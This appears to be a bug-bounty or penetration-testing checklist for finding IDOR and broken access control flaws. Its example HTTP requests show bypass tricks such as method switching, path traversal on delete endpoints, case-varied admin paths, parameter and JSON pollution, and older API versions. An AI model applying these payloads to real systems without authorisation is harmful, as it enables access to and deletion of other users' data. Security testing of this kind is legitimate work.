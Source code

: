 Base Steps:
```bash
1. Create two accounts if possible or else enumerate users first. 
2. Check if the endpoint is private or public and does it contains any kind of id param.
3. Try changing the param value to some other user and see if does anything to their account.
4. Done !!
```

[ ]
[ ] image profilie
[ ] delete acount 
[ ] infromation acount
[ ] VIEW & DELETE & Create api_key
[ ] allows to read any comment
[ ] change price
[ ] chnage the coin from dollar to uaro
[ ] Try decode the ID, if the ID encoded using md5,base64,etc
```html
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```

[ ] change HTTP method
```bash
GET /users/delete/victim_id  ->403
POST /users/delete/victim_id ->200
```

[ ] Try replacing parameter names
```bash
Instead of this:
GET /api/albums?album_id=<album id>

Try This:
GET /api/albums?account_id=<account id>

Tip: There is a Burp extension called Paramalyzer which will help with this by remembering all the parameters you have passed to a host.
```

[ ] Path Traversal
```bash
POST /users/delete/victim_id          ->403
POST /users/delete/my_id/..victim_id  ->200
```

[ ] change request content-type
```bash
Content-Type: application/xml ->
Content-Type: application/json
```

[ ] swap non-numeric with numeric id
```bash
GET /file?id=90djbkdbkdbd29dd
GET /file?id=302
```

[ ] Missing Function Level Acess Control 
```bash
GET /admin/profile ->401
GET /Admin/profile ->200
GET /ADMIN/profile ->200
GET /aDmin/profile ->200
GET /adMin/profile ->200
GET /admIn/profile ->200
GET /admiN/profile ->200
```

[ ]send wildcard instead of an id
```bash
GET /api/users/user_id ->
GET /api/users/*
```

[ ] Never ignore encoded/hashed ID
```bash
for hashed ID ,create multiple accounts and understand the ppattern application users to allot an iD
```

[ ] Google Dorking/public form
```bash
search all the endpoints having ID which the search engine may have already indexed
```

[ ] Bruteforce Hidden HTTP  parameters
```bash
use tools like arjun , paramminer 
```

[ ] Bypass object level authorization Add parameter onto the endpoit if not present by defualt
```bash
GET /api_v1/messages ->200
GET /api_v1/messages?user_id=victim_uuid ->200
```

[ ] HTTP Parameter POllution Give mult value for same parameter
```bash
GET /api_v1/messages?user_id=attacker_id&user_id=victim_id
GET /api_v1/messages?user_id=victim_id&user_id=attacker_id
```

[ ] change file type
```bash
GET /user_data/2341        -> 401
GET /user_data/2341.json   -> 200
GET /user_data/2341.xml    -> 200
GET /user_data/2341.config -> 200
GET /user_data/2341.txt    -> 200
```

[ ] json parameter pollution
```bash
{"userid":1234,"userid":2542}
```

[ ] Wrap the ID with an array in the body
```bash
{"userid":123} ->401
{"userid":[123]} ->200
```

[ ] wrap the id with a json object
```bash
{"userid":123} ->401
{"userid":{"userid":123}} ->200
```

[ ] Test an outdata API version 
```bash
GET /v3/users_data/1234 ->401
GET /v1/users_data/1234 ->200
```

[ ] If the website using graphql, try to find IDOR using graphql!
```bash
GET /graphql
[...]
```
```html
GET /graphql.php?query=
[...]
```
